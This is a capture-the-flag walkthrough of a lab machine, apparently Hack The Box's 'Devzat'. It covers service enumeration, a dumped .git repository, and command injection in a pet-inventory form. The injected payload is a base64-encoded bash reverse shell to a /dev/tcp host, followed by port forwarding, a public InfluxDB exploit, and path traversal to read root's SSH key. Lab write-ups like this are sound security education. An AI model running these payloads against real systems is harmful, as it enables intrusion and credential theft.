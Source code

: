## Enumeration

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://devzat.htb/
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=10/18%Time=616D0F58%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that 80 port will redirect us to "devzat.htb", so add the domain name to our /etc/hosts file.

## Web

The website advertises "devzat" a chat application and right at the bottom of the page we can find a way to interact with the chat service `ssh -l [username] devzat.htb -p 8000`. We try to connect to it and we see that we have a limited number of commands that don't lead anywhere. 

After that let's try to discover any vhosts on the domain. 

```bash
gobuster vhost -u http://devzat.htb -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -r -t 80
```
Discovered "pets.devzat.htb". Let's add this to /etc/hosts and navigate in our browser.
This time it's an inventory and down at the bottom of the page we find "Add a pet" functionality with two fields "Name the pet" and "Which species is it". The latter is selection menu but the former is a regular text field that we can try for injection.

Now after submitting some special characters we only get an "exit-status-1" response.
Let's investigate this further. We try fuzzing.

```bash
wfuzz -u http://pets.devzat.htb/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -c --hh 510 -t 80
```
```bash
000000021:   301        2 L      3 W        40 Ch       "css"
000001767:   301        2 L      3 W        42 Ch       "build"
000004659:   403        9 L      28 W       280 Ch      "server-status"
000005919:   301        2 L      3 W        41 Ch       ".git"  
```

We got something here, the ".git" directory seems interesting so let's dump it using "git-dumper"

```bash
git_dumper.py http://pets.devzat.htb/.git dump/
```
We get the source code of the pets application. After poking around the code of the main.go we come across a vulnerable "exec" function that directly executes the species name without any input sanitazation. 

```bash
cmd := exec.Command("sh", "-c", "cat characteristics/"+species)$
```
We can leverage this and input a reverse shell. First let's capture the submit request in burp. Now create the payload (better encoded it):

```bash
echo -n "bash -i >& /dev/tcp/IP/PORT 0>&1" | base64
```
In burp
```bash
{
    "name":"Anonymous",
    "species":"dog;echo <base64-hash> | base64 -d | bash"
}
```
Open the listener and send the request to get the callback.

## Filesystem

Now we got a limited shell as patrick but we know ssh is open so let's grab patrick's private key and connect through ssh.

Now let's run LinPEAS.

And we see a service running on port 8086. Let's make a port forward on that port 
```bash
ssh -L 8000:127.0.0.1:8086 -i id_rsa patrick@10.10.14.116
# Now browse localhost:8000
```

Alternatively we can use chisel:
```bash
# Local machine
./chisel server -p 8080 --reverse
# Remote machine
./chisel client 10.10.14.116:8080 R:8086:127.0.0.1:8086
# Now browse localhost:8086
```
After accessing that port on browser it's said "404 page not found" and we see it's using php with laravel framework. After enumerating the service with nmap `nmap -A 127.0.0.1 -p 8086` we find that it's running InfluxDB.

With a quick google search we are able to find an exploit [here](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933).

## Exploitation

Running the exploit we disclose a "devzat" database and from there we dump the data from the "user" table `SELECT * FROM "user"`.

Now we have the "catherine" user password "woBeeYareedahc7Oogeephies7Aiseci", so let's su to this account.

## Privilege Escalation

Again running linpeas we find two backup files devzat-main & devzat-dev. Python is installed on the system so let's download these locally and analyze them.

Now unzip the two files and look inside we get pretty much the same files. So let's use `diff command` for changes inside the files. What we get is `commands.go`. Alternatevely to diff we can use online tools like [Text-Compare](https://text-compare.com/). 

Now comparing the two `commands.go` files we find some differences. First change we see "path/filepath" in "import". Second it's a new command called "/file" and for using that we need password which is hard-coded inside the program and we also see that if the path is not found, the current path will get printed.

`password = CeilingCatStillAThingIn2021?`

And inside "devchat.go" file we see it's running on port 8443.

Back to catherine's shell connect to the service:
```bash
ssh -l user localhost -p 8443
```
If we input a wrong path it's printing the current path /root/devzat. 

```bash
/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
/file ../root.txt CeilingCatStillAThingIn2021?
```

